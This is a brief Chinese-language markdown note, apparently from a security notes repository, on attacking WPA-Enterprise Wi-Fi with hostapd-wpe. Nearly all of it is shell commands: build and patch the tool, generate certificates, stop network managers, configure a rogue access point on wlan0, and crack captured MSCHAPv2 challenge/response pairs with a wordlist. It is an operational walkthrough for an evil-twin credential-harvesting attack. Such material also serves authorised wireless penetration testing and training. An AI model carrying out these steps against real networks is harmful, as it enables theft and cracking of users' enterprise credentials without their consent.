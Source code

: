 
# wpa企业攻击

* hostapd-wpe


## hostapd-wpe

> 取代了FreeRADIUS-wpe  
> EAP-FAST/MSCHAPv2  
> PEAP/MSCHAPv2  
> EAP-TTLS/MSCHAPv2  
> EAP-TTLS/MSCHAP  
> EAP-TTLS/CHAP  
> EAP-TTLS/PAP  

```shell 
    1. GIT CLONE https://github.com/OpenSecurityResearch/hostapd-wpe
    2. apt-get install libssl-dev libnl-dev
    3. wget http://hostap.epitest.fi/releases/hostapd-2.2.tar.gz
    4. tar zxvf hostapd-2.2.tar.gz
    5. cd hostapd-2.2
    6. patch -p1 < ../hostapd-wpe/hostapd-wpe.patch
    7. cd hostapd
    8. make
    9. 生成证书
        cd ../../hostapd-wpe/certs
        ./bootstrap
    #(虚拟机 映射usb无线网卡之前) 10. service network-manager stop
    # 11. airmon-ng check kill
    # 12. 映射无线网卡
        ifconfig wlan0 up
    13. 启动伪造AP
        cd ../../hostapd-2.2/hostapd 
        vi hostapd-wpe.conf
            # interface=eth0
            interface=wlan0
            # driver=wired
            driver = nl80211
            ssid=kifi
            hw_mode=g
			channel=11
					
        ./hostapd-wpe hostapd-wpe.conf
	14. 密码破解
        aslecp -C challenge -R response -w <Dictionary File>
```

